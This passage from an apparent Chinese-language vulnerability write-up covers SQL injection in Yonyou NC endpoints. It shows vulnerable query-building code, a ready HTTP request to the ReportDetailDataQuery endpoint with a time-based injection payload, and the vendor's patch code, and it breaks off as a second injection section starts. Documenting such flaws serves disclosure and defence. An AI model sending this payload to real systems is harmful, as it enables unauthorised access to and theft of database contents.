 ```plain
            buffer.append(" FROM ").append(tableName);
        }

        if (condition != null && condition.length() != 0) {
            if (condition.toUpperCase().trim().startsWith("ORDER ")) {
                buffer.append(" ").append(condition);
            } else {
                buffer.append(" WHERE ").append(condition);
            }
        }

        return buffer.toString();
    }
```

### 漏洞复现

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.ReportDetailDataQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

{"reportid":"1';waitfor delay '0:0:4'--"}
```

### 漏洞修复

补丁地址： [https://security.yonyou.com/#/noticeInfo?id=465](https://security.yonyou.com/#/noticeInfo?id=465)

```plain
formPK = (String) requestMap.get("reportid");
//防SQL注入
DataParamValidator.validate(formPK);

public static void validate(String param) throws ServletException{
    if(param.contains("'")){
        throw new ServletException("invalid parameter");
    }
}
```

## ArchiveVerify接口存在SQL注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析
